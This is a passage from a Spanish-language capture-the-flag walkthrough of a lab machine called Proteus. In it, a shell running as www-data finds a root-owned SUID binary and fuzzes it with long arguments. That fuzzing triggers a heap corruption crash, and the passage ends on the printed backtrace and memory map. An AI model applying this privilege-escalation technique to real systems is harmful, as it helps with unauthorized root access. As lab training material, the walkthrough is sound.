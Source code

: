 Con este nuevo usuario, no se puede iniciar la sesión en la aplicación.

# SUID

Parece que los caminos anteriores no llegan a ninguna parte.

Entre los archivos que hay en */home/malwareadm* y subcarpetas, llama la atención el archivo */home/malwareadm/sites/proteus_site/admin_login_logger*. El propietario es **root** y tiene activo el bit SUID. Vamos a ver si hallamos alguna vulnerabilidad de tipo *SUID*.

Si lo ejecutamos, hace lo siguiente:

```
www-data@Proteus:/home/malwareadm/sites/proteus_site$ ls -al
ls -al
total 36
drwxr-xr-x 4 malwareadm malwareadm 4096 May 15 14:43 .
drwxr-xr-x 3 malwareadm malwareadm 4096 May  2 14:43 ..
-rw-r--r-- 1 malwareadm malwareadm 6115 May  4 22:18 PROTEUS_INSTALL
-rwsr-xr-x 1 root       root       7824 May 10 09:18 admin_login_logger
-rw-r--r-- 1 malwareadm malwareadm  515 May 15 14:43 admin_login_request.js
drwxr-xr-x 2 malwareadm malwareadm 4096 May  2 14:07 db
drwxr-xr-x 9 malwareadm malwareadm 4096 May 10 08:30 web

www-data@Proteus:/home/malwareadm/sites/proteus_site$ ./admin_login_logger
Usage: ./admin_login_logger  ADMIN LOGIN ATTEMPT (This will be done with phantomjs)
www-data@Proteus:/home/malwareadm/sites/proteus_site$ ./admin_login_logger hola
Writing datafile 0x9ba81d0: '/var/log/proteus/log'
www-data@Proteus:/home/malwareadm/sites/proteus_site$ ls -al /var/log/proteus
total 120
drwxr-xr-x  2 root root         4096 May 10 05:02 .
drwxrwxr-x 10 root syslog       4096 May 10 07:28 ..
-rw-------  1 root malwareadm 107315 Jul 26 17:21 log

```

Como vemos, el programa escribe algo en un archivo al que no podemos acceder. Vamos a comprobar si podemos utilizar argumentos muy largos para forzar algo:

```
www-data@Proteus:/home/malwareadm/sites/proteus_site$ ./admin_login_logger $(for i in {0..99}; do echo -n X; done)
Writing datafile 0x91f71d0: '/var/log/proteus/log'
www-data@Proteus:/home/malwareadm/sites/proteus_site$ ./admin_login_logger $(for i in {0..399}; do echo -n X; done)
Writing datafile 0x8f7e1d0: '/var/log/proteus/log'
www-data@Proteus:/home/malwareadm/sites/proteus_site$ ./admin_login_logger $(for i in {0..799}; do echo -n X; done)
Writing datafile 0x96781d0: 'XXXXXXXXXXXXXXXXXXXXXXXXXXXX	'
*** Error in `./admin_login_logger': double free or corruption (!prev): 0x09678008 ***
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(+0x67f0a)[0xb75fff0a]
/lib/i386-linux-gnu/libc.so.6(+0x6eb07)[0xb7606b07]
/lib/i386-linux-gnu/libc.so.6(+0x6f3c6)[0xb76073c6]
./admin_login_logger[0x8048a14]
/lib/i386-linux-gnu/libc.so.6(__libc_start_main+0xf6)[0xb75b0276]
./admin_login_logger[0x80485d1]
======= Memory map: ========
08048000-08049000 r-xp 00000000 08:01 659612     /home/malwareadm/sites/proteus_site/admin_login_logger
08049000-0804a000 r--p 00000000 08:01 659612     /home/malwareadm/sites/proteus_site/admin_login_logger
0804a000-0804b000 rw-p 00001000 08:01 659612     /home/malwareadm/sites/proteus_site/admin_login_logger
09678000-09699000 rw-p 00000000 00:00 0          [heap]
b7400000-b7421000 rw-p 00000000 00:00 0
```